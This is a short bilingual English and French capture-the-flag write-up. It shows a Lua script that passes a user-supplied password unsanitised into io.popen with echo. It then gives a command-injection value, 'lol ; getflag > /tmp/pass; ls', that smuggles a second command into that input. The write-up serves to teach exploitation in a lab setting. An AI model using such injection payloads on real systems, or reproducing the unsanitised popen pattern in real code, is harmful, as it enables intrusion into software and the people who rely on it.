 ### English
We can see in the lua script that an echo is executed: 
```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We can then hijack this echo so that it sends the getflag command:
- lol ; getflag > /tmp/pass; ls

### Francais
Nous pouvons voir dans le script lua qu'un echo est executé: 
```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

Nous pouvons alors detourné ce echo pour qu'il envoi la commande getflag: 
- lol ; getflag > /tmp/pass; ls